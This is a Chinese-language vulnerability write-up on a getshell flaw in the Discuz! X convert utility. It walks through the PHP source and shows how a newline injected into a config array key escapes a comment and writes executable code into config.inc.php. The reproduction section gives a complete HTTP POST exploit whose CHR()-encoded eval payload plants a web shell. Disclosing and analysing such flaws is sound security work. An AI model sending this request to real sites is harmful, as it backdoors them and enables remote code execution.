 Discuz! X 系列全版本，版本转换功能导致Getshell
==============================================

一、漏洞简介
------------

存在问题的代码在`/utility/convert/`目录下，这部分的功能主要是用于Dz系列产品升级/转换。

二、漏洞影响
------------

Discuz! X 全版本

三、复现过程
------------

### 漏洞分析

入口`utility/convert/index.php`

    require './include/common.inc.php';

    $action = getgpc('a');
    $action = empty($action) ? getgpc('action') : $action;
    $source = getgpc('source') ? getgpc('source') : getgpc('s');

取`$_POST['a']`,直接赋值给`$action`，此时`$action = config`;

    } elseif($action == 'config' || CONFIG_EMPTY) {      
        require DISCUZ_ROOT.'./include/do_config.inc.php';  
    } elseif($action == 'setting') {

满足条件，引入`./include/do_config.inc.php`

    @touch($configfile);
     ......
    if(submitcheck()) {
        $newconfig = getgpc('newconfig');
        if(is_array($newconfig)) {
            $checkarray = $setting['config']['ucenter'] ? array('source', 'target', 'ucenter') : array('source', 'target');
            foreach ($checkarray as $key) {
          ......
        }
        save_config_file($configfile, $newconfig, $config_default);

`$newconfig`从`$_POST[newconfig]`获取数据，`save_config_file`函数保将`$newconfig`保存到`$configfile`文件中，即`config.inc.php`文件。跟进该函数。

    function save_config_file($filename, $config, $default) {
        $config = setdefault($config, $default);// 将$config中的空白项用 $default 中对应项的值填充
        $date = gmdate("Y-m-d H:i:s", time() + 3600 * 8);
        $year = date('Y');
        $content = <<<EOT
    <?php


    \$_config = array();

    EOT;
        $content .= getvars(array('_config' => $config));
        $content .= "\r\n// ".str_pad('  THE END  ', 50, '-', STR_PAD_BOTH)." //\r\n\r\n?>";
        file_put_contents($filename, $content);
    }

getvars函数处理，此时的`$config` =
`$newconfig+config.default.php对应项的补充`。看一下getvars函数：

    function getvars($data, $type = 'VAR') {
        $evaluate = '';
        foreach($data as $key => $val) {
            if(!preg_match("/^[a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff]*$/", $key)) {
                continue;
            }
            if(is_array($val)) {
                $evaluate .= buildarray($val, 0, "\${$key}")."\r\n";
            } else {
                $val = addcslashes($val, '\'\\');
                $evaluate .= $type == 'VAR' ? "\$$key = '$val';\n" : "define('".strtoupper($key)."', '$val');\n";
            }
        }
        return $evaluate;
    }

满足if条件会执行`buildarray`函数，此时`$key=_config`，`$val`=上面的`$config`。最终造成写入的在该函数中（update.php
2206行）：

    foreach ($array as $key => $val) {
            if($level == 0) {
                //str_pad — 使用另一个字符串填充字符串为指定长度
                // 第一个参数是要输出的字符串，指定长度为50，用'-'填充，居中
                $newline = str_pad('  CONFIG '.strtoupper($key).'  ', 50, '-', STR_PAD_BOTH);
                $return .= "\r\n// $newline //\r\n";
            }

本意是使用`$config`数组的key作为每一块配置区域的\"注释标题\"，写入配置文件的\$newline依赖于\$key，而\$key是攻击者可控的。

未对输入数据进行正确的边界处理，导致可以插入换行符，逃离注释的作用范围，从而使输入数据转化为可执行代码。

### 漏洞复现

在产品升级/转换-\>选择产品转换程序 -\>设置服务器信息 这里抓包，

payload：

    POST /dz/utility/convert/index.php HTTP/1.1
    Host: www.0-sec.org:8001
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:74.0) Gecko/20100101 Firefox/74.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 278
    Origin: http://127.0.0.1:8001
    Connection: close
    Referer: http://127.0.0.1:8001/dz/utility/convert/index.php
    Upgrade-Insecure-Requests: 1

    a=config&source=d7.2_x1.5&submit=yes&newconfig[aaa%0a%0deval(CHR(101).CHR(118).CHR(97).CHR(108).CHR(40).CHR(34).CHR(36).CHR(95).CHR(80).CHR(79).CHR(83).CHR(84).CHR(91).CHR(108).CHR(97).CHR(110).CHR(118).CHR(110).CHR(97).CHR(108).CHR(93).CHR(59).CHR(34).CHR(41).CHR(59));//]=aaaa

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X系列全版本版本转换功能导致Getshell/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/7492\#toc-18
